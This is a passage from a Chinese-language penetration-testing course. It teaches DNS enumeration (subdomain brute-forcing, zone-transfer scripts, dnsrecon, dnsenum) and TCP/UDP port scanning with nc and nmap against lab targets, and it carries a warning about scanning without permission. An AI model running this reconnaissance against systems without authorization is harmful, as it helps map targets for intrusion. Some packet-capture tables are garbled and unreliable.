为了演示这一点，我们将使用 `host` 命令来查找 `www.megacorpone.com` 的 IP 地址：
```


kali@kali:~$ host www.megacorpone.com

www.megacorpone.com has address 38.100.193.76

```
*列表 210 - 使用 host 查找 www.megacorpone.com 的 A 主机记录*
```

默认情况下，`host` 命令查找 A 记录，但我们也可以查询其他字段，如 MX 或 TXT 记录。为此，我们可以使用 `-t` 选项来指定我们要查找的记录类型：

```
kali@kali:~$ host -t mx megacorpone.com

megacorpone.com mail is handled by 10 fb.mail.gandi.net.

megacorpone.com mail is handled by 50 mail.megacorpone.com.

megacorpone.com mail is handled by 60 mail2.megacorpone.com.

megacorpone.com mail is handled by 20 spool.mail.gandi.net.

kali@kali:~$ host -t txt megacorpone.com

megacorpone.com descriptive text "Try Harder"
```
*列表 211 - 使用 host 查找 megacorpone.com 的 MX 和 TXT 记录*

#### 7.1.2 自动化查询

现在我们有了来自 `megacorpone.com` 域名的初始数据，我们可以继续使用额外的 DNS 查询来发现属于同一域名的更多主机名和 IP 地址。例如，我们知道该域名有一个 Web 服务器，其主机名为 "`www.megacorpone.com`"。

让我们对该主机名运行 `host`：


```
kali@kali:~$ host www.megacorpone.com

www.megacorpone.com has address 38.100.193.76
```
*列表 212 - 使用 host 查找有效主机*

现在，让我们看看 `megacorpone.com` 是否有一个主机名为 "`idontexist`" 的服务器。注意查询输出的区别：

```
kali@kali:~$ host idontexist.megacorpone.com

Host idontexist.megacorpone.com not found: 3 (NXDOMAIN)
```
*列表 213 - 使用 host 查找无效主机*

在列表 212 中，我们查询了一个有效的主机名并收到了 IP 解析响应。相比之下，列表 213 返回了一个错误（`NXDOMAIN`^189^），表明该主机名不存在公共 DNS 记录。现在既然我们明白了如何搜索有效的主机名，我们就可以自动化我们的努力。

#### 7.1.3 正向查找暴力破解

暴力破解是一种试错技术，旨在寻找有效信息，包括 Web 服务器上的目录、用户名和密码组合，或者在本例中，有效的 DNS 记录。通过使用包含常见主机名的词表，我们可以尝试猜测 DNS 记录并检查响应以获取有效的主机名。

在迄今为止的示例中，我们使用了*正向查找*，即请求主机名的 IP 地址，来查询一个有效和一个无效的主机名。如果 `host` 成功将一个名称解析为 IP，这可能是一个功能正常的服务器的迹象。

我们可以使用 `host` 命令在 Bash 单行程序中自动化常见主机名的正向 DNS 查询。

首先，让我们构建一个可能的主机名列表：

```
kali@kali:~$ cat list.txt

www

ftp

mail

owa

proxy

router
```
*列表 214 - 一个可能主机名的小列表*

接下来，我们可以使用一个 Bash 单行程序来尝试解析每个主机名：

```
kali@kali:~$ for ip in $(cat list.txt); do host $ip.megacorpone.com; done

www.megacorpone.com has address 38.100.193.76

Host ftp.megacorpone.com not found: 3 (NXDOMAIN)

mail.megacorpone.com has address 38.100.193.84

Host owa.megacorpone.com not found: 3 (NXDOMAIN)

Host proxy.megacorpone.com not found: 3 (NXDOMAIN)

router.megacorpone.com has address 38.100.193.71
```

^189^ (Internet Engineering Task Force, 2016), https://tools.ietf.org/html/rfc8020


列表 215 - 使用 Bash 对正向 DNS 名称查找进行暴力破解

通过使用这个简化的字典，我们发现了“www”、“mail”和“router”的条目。然而，“ftp”、“owa”和“proxy”这些主机名并未找到。SecLists 项目提供了更为全面的字典[^190]。这些字典可以使用 `sudo apt install seclists` 命令安装到 `/usr/share/seclists` 目录中。

#### 7.1.4 反向查找暴力破解

我们的 DNS 正向暴力破解枚举揭示了同一近似范围（`38.100.193.X`）内的一组分散的 IP 地址。如果 `megacorpone.com` 的 DNS 管理员为该域名配置了 PTR[^191] 记录，我们可以通过反向查找扫描该近似范围，以请求每个 IP 的主机名。

让我们使用循环来展示从 `38.100.193.50` 到 `38.100.193.100` 的 IP 地址。我们将通过仅显示不包含“not found”的条目（使用 `grep -v`）来过滤掉无效结果：

```bash
kali@kali:~$ for ip in $(seq 50 100); do host 38.100.193.$ip | grep -v "not found"

69.193.100.38.in-addr.arpa domain name pointer beta.megacorpone.com.

70.193.100.38.in-addr.arpa domain name pointer ns1.megacorpone.com.

72.193.100.38.in-addr.arpa domain name pointer admin.megacorpone.com.

73.193.100.38.in-addr.arpa domain name pointer mail2.megacorpone.com.

76.193.100.38.in-addr.arpa domain name pointer www.megacorpone.com.

77.193.100.38.in-addr.arpa domain name pointer vpn.megacorpone.com.

...
```

列表 216 - 使用 Bash 对反向 DNS 名称进行暴力破解

我们已成功使用反向 DNS 查找将许多 IP 地址解析为有效的主机。如果正在进行评估，我们可以进一步推断这些结果，并可能扫描“mail1”、“mail3”等，并对反向查找的阳性结果进行后续查找。关键在于，这类扫描通常是循环的；我们会根据每一轮收到的信息扩展搜索范围。

#### 7.1.5 DNS 区域传输

区域传输基本上是相关 DNS 服务器之间的数据库复制，其中区域文件从主 DNS 服务器复制到从服务器。区域文件包含为该区域配置的所有 DNS 名称列表。区域传输应仅允许授权的从 DNS 服务器执行，但许多管理员错误配置了他们的 DNS 服务器，在这种情况下，任何请求 DNS 服务器区域副本的人通常都会收到。

这相当于将企业网络布局在银盘上递给黑客。所有服务器名称、地址和功能都可能暴露在窥探者眼中。

> 我们曾看到一些组织的 DNS 服务器配置极其糟糕，它们没有将内部 DNS 命名空间与外部 DNS 命名空间分离到独立、无关的区域中。这使我们能够获取内部和外部网络结构的完整地图。DNS 服务器以这种方式配置错误并不罕见[^192]。

成功的区域传输并不直接导致网络入侵，尽管它确实促进了这一过程。

执行区域传输的 `host` 命令语法如下：

```bash
host -l <domain_name> <dns_server_address>
```


### 列表 217 - 使用 host 执行 DNS 区域传输

从我们最早的 `host` 命令（列表 210）中，我们注意到有三个 DNS 服务器为 `megacorpone.com` 域名提供服务：`ns1`、`ns2` 和 `ns3`。让我们尝试对每一个进行区域传输。

我们将使用 `host -L`（列出区域）来尝试区域传输：

```bash
kali@kali:~$ host -L megacorpone.com ns1.megacorpone.com

Using domain server:

Name: ns1.megacorpone.com

Address: 38.100.193.70#53

Aliases:

Host megacorpone.com not found: 5 (REFUSED)

; transfer failed.
```

### 列表 218 - 第一次区域传输尝试失败

不幸的是，看起来第一个名称服务器 `ns1` 不允许 DNS 区域传输，因此我们的尝试失败了。

让我们尝试使用第二个名称服务器 `ns2` 执行相同的步骤：

```bash
kali@kali:~$ host -L megacorpone.com ns2.megacorpone.com

Using domain server:

Name: ns2.megacorpone.com

Address: 38.100.193.80#53

Aliases:

megacorpone.com name server ns1.megacorpone.com.

megacorpone.com name server ns2.megacorpone.com.

megacorpone.com name server ns3.megacorpone.com.

admin.megacorpone.com has address 38.100.193.83

beta.megacorpone.com has address 38.100.193.88

fs1.megacorpone.com has address 38.100.193.82

intranet.megacorpone.com has address 38.100.193.87

mail.megacorpone.com has address 38.100.193.84

mail2.megacorpone.com has address 38.100.193.73

ns1.megacorpone.com has address 38.100.193.70

...
```

### 列表 219 - 使用 host 说明 DNS 区域传输

此服务器允许区域传输，并提供了 `megacorpone.com` 域名的区域文件完整转储，提供了一份便捷的 IP 地址和对应 DNS 主机名列表！

`megacorpone.com` 域名只有很少的 DNS 服务器需要检查。然而，一些较大的组织可能托管许多 DNS 服务器，或者我们可能希望针对特定域名中的所有 DNS 服务器尝试区域传输请求。Bash 脚本可以帮助完成此任务。

要使用 `host` 命令尝试区域传输，我们需要两个参数：名称服务器地址和域名。我们可以使用以下命令获取给定域名的名称服务器：

```bash
kali@kali:~$ host -t ns megacorpone.com | cut -d " " -f 4

ns1.megacorpone.com.

ns2.megacorpone.com.

ns3.megacorpone.com.
```

### 列表 220 - 使用 host 获取给定域名名的 DNS 服务器

更进一步，我们可以编写一个 Bash 脚本来自动化识别相关名称服务器并尝试从每个服务器进行区域传输的过程：

```bash
#!/bin/bash

# Simple Zone Transfer Bash Script

# $1 is the first argument given after the bash script

# Check if argument was given, if not, print usage

if [ -z "$1" ]; then

   echo "[*] Simple Zone transfer script"

   echo "[*] Usage : $0 <domain name> "

   exit 0

fi

# if argument was given, identify the DNS servers for the domain

for server in $(host -t ns $1 | cut -d " " -f4); do

   # For each of these servers, attempt a zone transfer

   host -l $1 $server | grep "has address"

done
```

### 列表 221 - 我们的 Bash DNS 区域传输脚本

让我们使脚本可执行并针对 `megacorpone.com` 运行它。

```bash
kali@kali:~$ chmod +x dns-axfr.sh
kali@kali:~$ ./dns-axfr.sh megacorpone.com

admin.megacorpone.com has address 38.100.193.83

beta.megacorpone.com has address 38.100.193.88

fs1.megacorpone.com has address 38.100.193.82

intranet.megacorpone.com has address 38.100.193.87

mail.megacorpone.com has address 38.100.193.84

mail2.megacorpone.com has address 38.100.193.73

ns1.megacorpone.com has address 38.100.193.70

ns2.megacorpone.com has address 38.100.193.80

ns3.megacorpone.com has address 38.100.193.90

router.megacorpone.com has address 38.100.193.71

...
```

### 列表 222 - 运行 DNS 区域传输 Bash 脚本

#### 7.1.6 Kali Linux 中的相关工具

Kali Linux 中有几个工具可以自动化 DNS 枚举。两个值得注意的例子是 `DNSRecon` 和 `DNSenum`，它们在以下部分中探讨了有用的选项。

#### 7.1.6.1 DNSRecon

`DNSRecon`[^193] 是一个高级、现代的、用 Python 编写的 DNS 枚举脚本。对 `megacorpone.com` 运行 `dnsrecon`，使用 `-d` 选项指定域名，并使用 `-t` 指定要执行的枚举类型（在此情况下为区域传输），将产生以下输出：

```bash
kali@kali:~$ dnsrecon -d megacorpone.com -t axfr

[*] Testing NS Servers for Zone Transfer

[*] Checking for Zone Transfer for megacorpone.com name servers

[*] Resolving SOA Record

[+]		SOA ns1.megacorpone.com 38.100.193.70

[*] Resolving NS Records

[*] NS Servers found:

[*]	NS ns1.megacorpone.com 38.100.193.70

[*]	NS ns2.megacorpone.com 38.100.193.80

[*]	NS ns3.megacorpone.com 38.100.193.90

[*] Removing any duplicate NS server IP Addresses...

[*]

[*] Trying NS server 38.100.193.80

[+]	38.100.193.80 Has port 53 TCP Open

[+]	Zone Transfer was successful!

[*]	NS ns1.megacorpone.com 38.100.193.70

[*]	NS ns2.megacorpone.com 38.100.193.80

[*]	NS ns3.megacorpone.com 38.100.193.90

[*]	MX @.megacorpone.com fb.mail.gandi.net 217.70.178.215

[*]	MX @.megacorpone.com fb.mail.gandi.net 217.70.178.217

[*]	MX @.megacorpone.com fb.mail.gandi.net 217.70.178.216
```


[*]	MX `@.megacorpone.com` `spool.mail.gandi.net` `217.70.178.1`

[*]	A `admin.megacorpone.com` `38.100.193.83`

[*]	A `fs1.megacorpone.com` `38.100.193.82`

[*]	A `www2.megacorpone.com` `38.100.193.79`

[*]	A `test.megacorpone.com` `38.100.193.67`

[*]	A `ns1.megacorpone.com` `38.100.193.70`

[*]	A `ns2.megacorpone.com` `38.100.193.80`

[*]	A `ns3.megacorpone.com` `38.100.193.90`

...

[*]

[*] Trying NS server `38.100.193.70`

[+]	`38.100.193.70` Has port `53` TCP Open

[-] Zone Transfer Failed!

[-] No answer or RReset not for qname

[*]

[^190]: (daniellmessler, 2019), https://github.com/danielmiessler/SecLists
[^191]: (Wikipedia, 2019), https://en.wikipedia.org/wiki/Reverse_DNS_Lookup
[^192]: (mandatoryprogrammer, 2019), https://github.com/mandatoryprogrammer/TLDR
[^193]: (darkoperator, 2019), https://github.com/darkoperator/dnsrecon


```text
[*]  正在尝试 DNS 服务器 38.100.193.90

[*]  38.100.193.90 端口 53 TCP 开放

[-]  区域传输失败！

[-]  无响应或 RSet 不针对查询名称
```

列表 223 - 使用 `dnsrecon` 执行区域传输

根据上述输出，我们成功对 `megacorpone.com` 域执行了一次 DNS 区域传输。结果基本上是该域区域文件的完整转储。

让我们尝试使用之前创建的 `list.txt` 文件对额外的主机名进行暴力破解，以进行正向查找。该列表如下所示：

```text
kali@kali:~$ cat list.txt

www

ftp

mail

owa

proxy

router
```

列表 224 - 用于使用 `dnsrecon` 对子域进行暴力破解的列表

要开始暴力破解尝试，我们将使用 `-d` 选项指定域名，`-D` 选项指定包含潜在子域字符串的文件名，以及 `-t` 选项指定要执行的枚举类型（在这种情况下为 `brt`，代表暴力破解）：

```text
kali@kali:~$ dnsrecon -d megacorpone.com -D list.txt -t brt

[*]  正在对 megacorpone.com 进行主机和子域暴力破解

[*]  A router.megacorpone.com 38.100.193.71

[*]  A www.megacorpone.com 38.100.193.76

[*]  A mail.megacorpone.com 38.100.193.84

[*]  3 条记录已找到
```

列表 225 - 使用 `dnsrecon` 暴力破解主机名

我们的暴力破解尝试已完成，我们成功解析了几个主机名。

### 7.1.6.2 DNSenum

`DNSenum` 是另一个流行的 DNS 枚举工具。为了展示不同的输出，让我们对 `zonetransfer.me` 域（由 DigiNinja[194] 拥有并明确允许进行区域传输）运行 `dnsenum`：

```text
kali@kali:~$ dnsenum zonetransfer.me

dnsenum.pl VERSION:1.2.2

------ zonetransfer.me ------

主机地址：

----------------

zonetransfer.me             7200    IN  A     217.147.180.162

名称服务器：

ns12.zoneedit.com 3653 IN A 209.62.64.46

ns16.zoneedit.com 6975 IN A 69.64.68.41

# 邮件 (MX) 服务器：

ASPMX5.GOOG.LEMAIL.COM 293 IN A 173.194.69.26

ASPMX.L.GOOGLE.COM 293 IN A 173.194.74.26

ALT1.ASPMX.L.GOOGLE.COM 293 IN A 173.194.66.26

ALT2.ASPMX.L.GOOGLE.COM 293 IN A 173.194.65.26

ASPMX2.GOOG.LEMAIL.COM 293 IN A 173.194.78.26

ASPMX3.GOOG.LEMAIL.COM 293 IN A 173.194.65.26

ASPMX4.GOOG.LEMAIL.COM 293 IN A 173.194.70.26

# 尝试区域传输并获取 Bind 版本：

正在 ns12.zoneedit.com 上尝试 zonetransfer.me 的区域传输 ...

zonetransfer.me 7200 IN SOA

zonetransfer.me 7200 IN NS

...

office.zonetransfer.me 7200 IN A 4.23.39.254

owa.zonetransfer.me 7200 IN A 207.46.197.32

info.zonetransfer.me 7200 IN TXT

asfdbox.zonetransfer.me 7200 IN A 127.0.0.1

canberra_office.zonetransfer.me 7200 IN A 202.14.81.230

asfdbvolume.zonetransfer.me 7800 IN AFSDB

email.zonetransfer.me 2222 IN NAPTR

dzc.zonetransfer.me 7200 IN TXT

robinwood.zonetransfer.me 362 IN TXT

vpn.zonetransfer.me 4000 IN A 174.36.59.154

_sip._tcp.zonetransfer.me 14000 IN SRV

dc_office.zonetransfer.me 7200 IN A 143.228.181.132

ns16.zoneedit.com Bind 版本：8.4.x

未指定暴力破解文件，退出。
```


列表 226 - 使用 dnsenum 执行区域传输。

这些枚举工具都功能强大且简单易用。在继续之前，请花时间练习使用每个工具。

[194] (DigiNinja), https://digi.ninja/about.php

### 7.1.6.3 练习

- 1. 找到 `megacorpone.com` 域的 DNS 服务器。
- 2. 编写一个小脚本，尝试使用 Python、Perl 或 Ruby 等更高级的脚本语言从 `megacorpone.com` 执行区域传输。
- 3. 重现上述示例，并使用 `dnsrecon` 尝试从 `megacorpone.com` 执行区域传输。

### 7.2 端口扫描

端口扫描是检查远程机器上的 TCP 或 UDP 端口，以检测目标上正在运行的服务以及可能存在哪些潜在攻击向量的过程。

请注意，端口扫描并不代表传统的用户活动，在某些司法管辖区可能被视为非法。因此，如果没有目标网络所有者的直接书面许可，不应在实验室之外执行此操作。

理解端口扫描的影响以及特定端口扫描可能造成的影响至关重要。由于某些扫描生成的流量量大且具有侵入性，盲目运行端口扫描可能对目标系统或客户网络产生不利影响，例如使服务器和网络链路过载或触发 IDS（入侵检测系统）。运行错误的扫描可能会导致客户停机。

采用适当的端口扫描方法可以显著提高我们作为渗透测试者的效率，同时限制许多风险。根据合作范围的不同，我们可以不针对整个目标网络运行全端口扫描，而是仅扫描端口 80 和 443 开始。利用可能的 Web 服务器列表，我们可以对这些服务器在后台运行全端口扫描，同时执行其他枚举工作。一旦全端口扫描完成，我们可以进一步缩小扫描范围，以在每次后续扫描中探测更多信息。端口扫描应被视为一个动态过程，对于每次合作都是独特的。一次扫描的结果决定了下一次扫描的类型和范围。

#### 7.2.1 TCP / UDP 扫描

我们将使用 `Ncat` 对端口扫描进行简单的 TCP 和 UDP 端口扫描来开始我们的探索。需要指出的是，`Ncat` **不**是端口扫描器，但可以以基本的方式将其用作端口扫描器。由于它已经存在于许多系统中，当我们不需要功能齐全的端口扫描器时，我们可以重新利用其部分功能来模拟基本的端口扫描。不过，还有更多专门用于端口扫描的更好工具，我们将详细探讨这些工具。

### 7.2.1.1 TCP 扫描

最简单的 TCP 端口扫描技术，通常称为 CONNECT 扫描，依赖于三次握手 TCP $^{195}$ 机制。该机制的设计目的是让两个尝试通信的主机在传输任何数据之前协商网络 TCP 套接字连接的参数。简单来说，主机向目标端口的服务器发送 TCP SYN 数据包。如果目标端口开放，服务器将以 SYN-ACK 数据包响应，客户端主机发送 ACK 数据包以完成握手。

如果握手成功完成，则端口被视为开放。

为了说明这一点，我们将对端口 3388-3390 运行一个 TCP Ncat 端口扫描。`w` 选项指定连接超时秒数，`z` 用于指定零 I/O 模式，该模式不发送数据并用于扫描：

```text
kali@kali:~$ nc -nvv -w 1 -z 10.11.1.220 3388-3390

(UNKNOWN) [10.11.1.220] 3390 (?) : Connection refused

(UNKNOWN) [10.11.1.220] 3389 (?) open

(UNKNOWN) [10.11.1.220] 3388 (?) : Connection refused

sent 0, rcvd 0
```

列表 227 - 使用 `nc` 执行 TCP 端口扫描

根据此输出，我们可以看到端口 3389 开放，而端口 3388 和 3390 上的连接超时。下图显示了此扫描的 Wireshark 捕获：

| No. | Time | Source | Destination | Protocol | Length | Info |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 1 | 0.593648886 | 19.11.9.125 | 10.11.1.220 | TCP | 74 | 54272 3389 [SYN] Seq=8 Win=32K |
| 2 | 4.0.373405715 | 10.11.1.220 | 10.11.1.228 | TCP | 83 | 3389 54272 [RSJ ACK] Seq=1 ACK=9 |
| 5 | 8.0.238353525 | 19.11.9.126 | 10.11.1.228 | TCP | 74 | 45692 3389 [SYN] Seq=6 Win=32K |
| 6 | 9.0.270314845 | 10.11.1.220 | 10.11.1.228 | TCP | 74 | 3389 45692 [SYN, ACK] Seq=2 ACK=7 |
| 7 | 9.0.257643092 | 10.11.1.226 | 10.11.1.228 | TCP | 86 | 45692 3389 [ACK] Seq=1 ACK=7 W |
| 8 | 8.0.258157571 | 10.11.1.228 | 10.11.1.228 | TCP | 86 | 45692 3389 [FIN, ACK] Seq=7 ACK=7 |
| 9 | 8.289200531 | 19.11.1.126 | 10.11.1.228 | TCP | 74 | 34322 3388 [SYN] Seq=8 Win=32K |
| 10 | 6.3437109449 | 10.11.1.226 | 10.11.1.228 | TCP | 86 | 3388 45692 [ACK] Seq=1 ACK=7 W |
| 11 | 6.3437159348 | 10.11.1.226 | 10.11.1.228 | TCP | 89 | 3388 34322 [RSJ, ACK] Seq=1 ACK |
| 12 | 6.345885225 | 10.11.1.228 | 10.11.1.228 | TCP | 89 | 3389 45692 [RSJ, ACK] Seq=1 ACK |

图 42：Ncat 端口扫描的 Wireshark 捕获

在此捕获中（图 42），`Ncat` 分别在第 1、5 和 9 行向端口 3390、3389 和 3388 发送了几个 TCP SYN 数据包。由于多种因素（包括时序问题），数据包在 Wireshark 中可能顺序错乱。请注意，服务器在第 6 行从端口 3389 发送了一个 TCP SYN-ACK 数据包，表明该端口是开放的。其他端口没有回复类似的 SYN-ACK 数据包，因此我们可以推断它们未开放。最后，在第 8 行，`Ncat` 通过发送 FIN-ACK 数据包关闭了此连接。

### 7.2.1.2 UDP 扫描

由于 UDP 是无状态的且不涉及三次握手，UDP 端口扫描背后的机制与 TCP 不同。

让我们对另一个目标的端口 160-162 运行一个 UDP Ncat 端口扫描。这是使用我们尚未见过的唯一 `nc` 选项 `u` 完成的，该选项表示 UDP 扫描：

```text
kali@kali:~$ nc -nv -u -z -w 1 10.11.1.115 160-162

(UNKNOWN) [10.11.1.115] 161 (snmp) open
```


列表 228 - 使用 Ncat 执行 UDP 端口扫描

从 Wireshark 捕获中，我们可以看到 UDP 扫描使用的是与 TCP 扫描不同的机制：

| 编号 | 时间 | 源地址 | 目标地址 | 协议 | 长度信息 |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 3 | 8.125497384 | 19.11.0.126 | 19.11.1.145 | TCP | 31 80BPS TCP-1 |
| 4 | 8.187829833 | 19.11.1.115 | 19.11.6.126 | ICMP | 71 目标不可达 (端口未... |
| 5 | 1.802881589 | 19.11.0.126 | 19.11.1.115 | UDP | 43 51082 - 161 Len=5 |
| 6 | 2.003950947 | 19.11.0.125 | 19.11.1.115 | UDP | 43 51082 - 161 Len=5 |
| 7 | 2.403284646 | 19.11.0.126 | 19.11.1.115 | UDP | 43 43218 - 160 Len=1 |
| 8 | 2.231871853 | 19.11.1.115 | 19.11.8.126 | ICMP | 71 目标不可达 (端口未... |


如图43所示，一个空的UDP数据包被发送到特定端口（数据包3、5、6和7）。如果目标UDP端口是开放的，数据包将被传递到应用层，接收到的响应取决于应用程序如何处理空数据包。在此示例中，应用程序未发送任何响应。然而，如果目标UDP端口是关闭的，目标主机应响应ICMP端口不可达消息（如数据包4和8所示），该消息由目标主机的UDP/IP协议栈发送。

大多数UDP扫描器倾向于使用标准的“ICMP端口不可达”消息来推断目标端口的状态。然而，当目标端口被防火墙过滤时，这种方法可能完全不可靠。实际上，在这些情况下，由于缺少ICMP消息，扫描器会将目标端口报告为开放。

### 7.2.1.3 常见的端口扫描陷阱

UDP扫描可能因多种原因而存在问题。首先，UDP扫描往往不可靠，因为防火墙和路由器可能会丢弃ICMP数据包。这会导致误报，使得实际关闭的端口显示为开放。其次，许多端口扫描器不会扫描所有可用端口，通常使用预定义的“感兴趣端口”列表进行扫描。这意味着开放的UDP端口可能会被忽略。使用特定于协议的UDP端口扫描器有助于获得更准确的结果。最后，渗透测试人员经常忘记扫描开放的UDP端口，而是专注于“更令人兴奋的”TCP端口。尽管UDP扫描可能不可靠，但开放的UDP端口背后隐藏着大量的攻击向量。

## 7.2.2 使用Nmap进行端口扫描

`Nmap`[^196]（由Gordon Lyon，aka Fyodor编写）是目前可用的最流行、多用途且健壮的端口扫描器之一。它已活跃开发了十多年，除了端口扫描外还具有众多功能。

> *本模块中介绍的一些Nmap示例扫描是使用`sudo`运行的*
> *这是因为许多Nmap扫描选项需要访问原始套接字，*[^197]*而原始套接字又需要root权限。原始套接字允许对TCP和UDP数据包进行精细操作。如果没有对原始套接字的访问权限，*

[^196]: (Nmap, 2019), http://nmap.org/
[^197]: (Man7, 2017), http://man7.org/linux/man-pages/man7/raw.7.html


> *`Nmap`会受到限制，因为它回退到使用标准Berkeley套接字API来构造数据包。*[^198]

[^198]: 文本中未明确引用，但暗示为脚注198。

让我们探索一些端口扫描示例，以便更好地熟悉`Nmap`及其选项。

### 7.2.2.1 对流量负责

默认的`Nmap` TCP扫描将扫描给定机器上1000个最流行的端口。在我们盲目开始运行扫描之前，让我们检查一下这种类型的扫描发送的流量大小。我们将扫描实验室机器之一，同时使用`**iptables**`监控发送到目标主机的流量量[^199]。

[^199]: 文本中未明确引用，但暗示为脚注199。

我们将使用几个`**iptables**`选项。首先，我们将使用`-I`选项将新规则插入到给定的链中，在这种情况下，包括`**INPUT**`（入站）和`**OUTPUT**`（出站）链，后跟规则编号。我们将使用`-s`指定源IP地址，使用`-d`指定目标IP地址，并使用`-j`来`**ACCEPT**`（接受）流量。最后，我们将使用`-Z`选项将所有链中的数据包和字节计数器清零。

现在让我们运行这些命令：

```
kali@kali:~$ sudo iptables -I INPUT 1 -s 10.11.1.220 -j ACCEPT

kali@kali:~$ sudo iptables -I OUTPUT 1 -d 10.11.1.220 -j ACCEPT

kali@kali:~$ sudo iptables -Z
```
列表 229 - 配置用于扫描的iptables规则

现在让我们使用`**nmap**`生成一些流量。

```
kali@kali:~$ nmap 10.11.1.220

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:20 EST

Nmap scan report for 10.11.1.220

Host is up (0.29s latency).

Not shown: 989 closed ports

PORT STATE SERVICE

21/tcp open ftp

53/tcp open domain

88/tcp open kerberos-sec

135/tcp open msrpc

139/tcp open netbios-ssn

389/tcp open ldap

445/tcp open microsoft-ds

464/tcp open kpasswd5

593/tcp open http-rpc-epmap

636/tcp open ldapssl

3268/tcp open globalcatLDAP

3269/tcp open globalcatLDAPSsl

3389/tcp open ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 46.29 seconds
```
列表 230 - 扫描IP的前1000个最流行TCP端口

扫描完成，发现了一些开放端口。

现在让我们查看一些`**iptables**`统计信息，以了解扫描产生了多少流量。我们将使用`**-v**`选项为输出添加一些详细信息，使用`**-n**`启用数字输出，使用`**-L**`列出所有链中存在的规则：

```
kali@kali:~$ sudo iptables -vn -L

Chain INPUT (policy ACCEPT 1528 packets, 226K bytes)

 pkts bytes target prot opt in out source destination

1263 51264 ACCEPT all -- * * 10.11.1.220 0.0.0.0/0

Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)

 pkts bytes target prot opt in out source destination

Chain OUTPUT (policy ACCEPT 1323 packets, 191K bytes)

 pkts bytes target prot opt in out source destination

1314 78300 ACCEPT all -- * * 0.0.0.0/0 10.11.1.220
```
列表 231 - 使用iptables监控前1000端口扫描的nmap流量

根据此输出，这个默认的1000端口扫描产生了大约78 KB的流量。

让我们再次使用`**iptables -Z**`将所有链中的数据包和字节计数器清零，并使用`**-p**`指定所有TCP端口运行另一个`**nmap**`扫描：

```
kali@kali:~$ sudo iptables -Z

kali@kali:~$ nmap -p 1-65535 10.11.1.220

Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:27 EST

Nmap scan report for 10.11.1.220

Host is up (0.00067s latency).

Not shown: 65507 closed ports

PORT STATE SERVICE

21/tcp open ftp

53/tcp open domain
```


88/tcp open kerberos-sec

135/tcp open msrpc

139/tcp open netbios-ssn

389/tcp open ldap

445/tcp open microsoft-ds

464/tcp open kpasswd5

593/tcp open http-rpc-epmap

636/tcp open ldapsssl

1291/tcp filtered seagullms

3268/tcp open globalcatLDAP

3269/tcp open globalcatLDAPssl

3389/tcp open ms-wbt-server

5722/tcp open msdfs

9389/tcp open adws

12777/tcp filtered unknown

46056/tcp filtered unknown

47001/tcp  open    winrm

...

Nmap done: 1 IP address (1 host up) scanned in 80.42 seconds

```
```
kali@kali:~$ sudo iptables -vn -L
Chain INPUT (policy ACCEPT 219K packets, 252M bytes)
 pkt  bytes  target     prot opt  in      out     source        destination
66243  2659K  ACCEPT    all  --  *      *      10.11.1.220   0.0.0.0/0
Chain FORWARD (policy ACCEPT 0 packets, 0 bytes)
 pkt  bytes  target     prot opt  in      out     source        destination
Chain OUTPUT (policy ACCEPT 85792 packets, 11M bytes)
 pkt  bytes  target     prot opt  in      out     source        destination
66768  4006K  ACCEPT    all  --  *      *      0.0.0.0/0    10.11.1.220
```
*列表 232 - 使用`iptables`监控所有TCP端口扫描的`nmap`流量*

类似的本地端口扫描明确探测所有65535个端口，产生了大约4 MB的流量，数量显著更高。然而，这个全端口扫描发现了默认TCP扫描未发现的新端口。

上述结果表明，对C类网络（254台主机）进行完整的Nmap扫描将导致向网络发送超过1000 MB的流量。在理想情况下，对每台目标机器进行完整的TCP和UDP端口扫描将提供关于暴露的网络服务的最准确信息。然而，上面的例子揭示了需要使用更全面的扫描来平衡流量限制（如慢速上行链路）与发现额外开放端口和服务的需求。对于更大的网络，如A类或B类网络评估，这一点尤为正确。

在下一节中，我们将探索Nmap的各种扫描技术。

### 7.2.2.2 隐蔽 / SYN 扫描

Nmap首选的扫描技术是SYN扫描，也称为“隐蔽”扫描[^200]。使用SYN扫描有许多好处，因此，当`nmap`命令中未指定扫描技术且用户具有所需的原始套接字权限时，它是默认的扫描技术。

[^200]: (Nmap, 2019). https://nmap.org/book/synscan.html

SYN扫描是一种TCP端口扫描方法，涉及向目标机器的各个端口发送SYN数据包，而不完成TCP握手。如果TCP端口是开放的，目标机器应返回SYN-ACK，告知我们该端口是开放的。此时，端口扫描器不会发送最终的ACK来完成三次握手。

```
kali@kali:~$ sudo nmap -sS 10.11.1.220
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:27 EST
Nmap scan report for 10.11.1.220
Host is up (1.3s latency).
Not shown: 980 closed ports
PORT     STATE  SERVICE
21/tcp   open     ftp
53/tcp   open     domain
```



88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
...

*列表 233 - 使用 `nmap` 执行 SYN 扫描*

由于三次握手从未完成，信息不会被传递到应用层，因此不会出现在任何应用日志中。SYN 扫描还更快、更高效，因为发送和接收的数据包更少。

> *请注意，“隐蔽”一词指的是在过去，原始防火墙未能记录不完整的 TCP 连接。现代防火墙已不再如此，即使“隐蔽”这个名称仍然沿用，它也可能是具有误导性的。*

### 7.2.2.3 TCP Connect 扫描

当运行 `nmap` 的用户没有原始套接字权限时，Nmap 将默认使用前面描述的 TCP connect 扫描 [201] 技术。由于 Nmap 的 TCP connect 扫描使用 Berkeley sockets API 来执行三次握手，因此不需要提升权限。然而，由于 Nmap 必须等待连接完成才能通过 API 获取连接状态，因此 connect 扫描比 SYN 扫描耗时更长。

在某些时候，我们需要专门使用 `nmap` 执行 connect 扫描，例如通过特定类型的代理进行扫描时。我们使用 `-sT` 选项来启动 connect 扫描：

```
kali@kali:~$ nmap -sT 10.11.1.220
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-04 11:37 EST
Nmap scan report for 10.11.1.220
Host is up (1.3s latency).
Not shown: 980 closed ports
PORT STATE SERVICE
21/tcp open ftp
53/tcp open domain
88/tcp open kerberos-sec
135/tcp open msrpc
139/tcp open netbios-ssn
389/tcp open ldap
445/tcp open microsoft-ds
464/tcp open kpasswd5
...
```

